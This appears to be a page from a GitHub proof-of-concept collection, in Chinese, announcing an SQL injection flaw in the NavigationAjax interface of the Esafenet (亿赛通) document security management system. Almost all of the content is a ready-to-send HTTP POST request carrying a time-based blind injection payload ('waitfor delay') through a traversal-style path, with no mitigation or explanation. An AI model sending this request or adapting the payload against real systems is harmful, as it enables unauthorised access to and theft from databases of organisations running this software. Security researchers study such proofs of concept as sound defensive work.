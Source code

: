 ## 亿赛通电子文档安全管理系统NavigationAjax接口存在SQL注入漏洞


## poc
```
POST /CDGServer3/js/../NavigationAjax HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=nav&id=-999'waitfor delay '0:0:3'--+&name=&openId=
```

![image](https://github.com/wy876/POC/assets/139549762/8bb3c1c9-a38d-475a-9162-8ad5de56b03f)
